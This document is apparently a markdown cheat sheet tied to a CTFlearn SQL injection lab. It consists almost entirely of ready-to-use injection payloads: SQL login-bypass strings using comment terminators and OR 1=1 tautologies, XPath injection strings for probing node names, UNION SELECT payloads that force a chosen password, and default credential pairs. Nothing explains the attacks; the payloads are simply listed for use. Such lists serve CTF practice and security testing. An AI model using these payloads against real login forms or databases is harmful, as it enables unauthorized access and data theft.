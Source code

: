 ### Helpful links:
https://ctflearn.com/lab/sql-injection-part-1




### COMMANDS:

```sql
admin'--
admin' /*
admin';
ad'||'min'; // Concatenation operator : Concatenates and then terminates
```
```sql
" or 1=1 -- 
" OR 1=1 --
```

```sql
' or 1 or '
' or 1=1 --
' OR 1=1 --
' or '1' = '1
' OR "tr"||"ue" --
' OR 2^3 --
admin admin
user user
```

## Xpath injection
```python
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```

## Bypass Login
```py
SELECT password FROM admins WHERE username='admin' UNION SELECT '123' AS password#
' UNION SELECT '123' AS password#
```
